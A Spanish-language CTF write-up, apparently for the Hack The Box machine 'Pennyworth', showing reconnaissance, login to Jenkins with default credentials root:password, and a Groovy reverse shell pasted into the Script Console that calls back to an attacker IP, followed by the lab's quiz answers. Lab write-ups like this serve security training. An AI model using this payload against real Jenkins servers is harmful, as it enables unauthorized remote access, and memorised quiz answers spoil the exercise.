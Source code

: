 # Pennyworth

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Common Applications (Aplicaciones Comunes):** Son herramientas ampliamente utilizadas en entornos empresariales e industriales, como servidores de integración continua, bases de datos y servicios web. Aunque son esenciales para la productividad, su configuración incorrecta o el uso de versiones desactualizadas pueden exponer vulnerabilidades críticas que los atacantes pueden explotar.
  * **Jenkins:** Es una herramienta de automatización de integración y entrega continua (CI/CD) utilizada para compilar, probar y desplegar aplicaciones. Debido a su uso frecuente en entornos de desarrollo, si no se configura adecuadamente o se protege con credenciales seguras, puede ser un objetivo para ataques como la ejecución remota de código (RCE) o la explotación de credenciales predeterminadas.
  * **Java:** Es un lenguaje de programación versátil y ampliamente utilizado en aplicaciones empresariales y web. Aunque es potente, su ejecución en entornos vulnerables puede llevar a ataques como la deserialización insegura, vulnerabilidades en bibliotecas desactualizadas y explotación de código malicioso dentro de aplicaciones Java en ejecución.
  * **Reconnaissance (Reconocimiento):** Es una fase crítica en las pruebas de penetración donde se recopila información sobre el sistema objetivo. Esto incluye la identificación de versiones de software, credenciales predeterminadas y servicios expuestos, lo que permite a los atacantes descubrir posibles puntos de entrada y debilidades en la infraestructura.
  * **Remote Code Execution (Ejecución Remota de Código - RCE):** Es una de las vulnerabilidades más peligrosas que permite a un atacante ejecutar comandos arbitrarios en un sistema objetivo de forma remota. En entornos con Jenkins y Java, una mala configuración o el uso de plugins inseguros pueden llevar a la explotación de RCE, comprometiendo completamente el servidor.
  * **Default Credentials (Credenciales Predeterminadas):** Son credenciales establecidas por defecto en software o hardware que, si no se cambian, pueden ser utilizadas por atacantes para obtener acceso no autorizado. Servicios como Jenkins a menudo tienen credenciales predeterminadas que, si no son modificadas, pueden permitir compromisos completos del sistema con privilegios administrativos.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.135.7
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.135.7
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **8080** perteneciente al servicio **HTTP** está abierto. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos las credenciales por defecto **root**:**password**.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos ubicamos en Manage Jenkins > Script Console para subir una Reverse Shell.

```bash
String host="10.10.16.35";int port=4444;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Le damos a run mientras nos ponemos en escucha.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Tarea 1**

**¿Qué significa el acrónimo CVE?**\
📌 **Common Vulnerabilities and Exposures** (Vulnerabilidades y Exposiciones Comunes)

**Tarea 2**

**¿Qué significan las tres letras en CIA, refiriéndose a la tríada CIA en ciberseguridad?**\
📌 **Confidentiality, Integrity, Availability** (Confidencialidad, Integridad, Disponibilidad)

**Tarea 3**

**¿Qué versión del servicio se está ejecutando en el puerto 8080?**\
📌 **Jetty 9.4.39.v20210325**

**Tarea 4**

**¿Qué versión de Jenkins se está ejecutando en el objetivo?**\
📌 **2.289.1**

**Tarea 5**

**¿Qué tipo de script se acepta como entrada en la Consola de Scripts de Jenkins?**\
📌 **Groovy**

**Tarea 6**

**¿A qué sería igual la variable "String cmd" del fragmento de script Groovy si la VM de destino estuviera ejecutando Windows?**\
📌 **cmd.exe**

**Tarea 7**

**¿Qué otro comando, además de "ip a", podríamos usar para mostrar la información de nuestras interfaces de red en Linux?**\
📌 **ifconfig**

**Tarea 8**

**¿Qué opción debemos usar con netcat para que utilice el modo de transporte UDP?**\
📌 **-U**

**Tarea 9**

**¿Cuál es el término utilizado para describir hacer que un host objetivo inicie una conexión de regreso al host del atacante?**\
📌 **reverse shell**
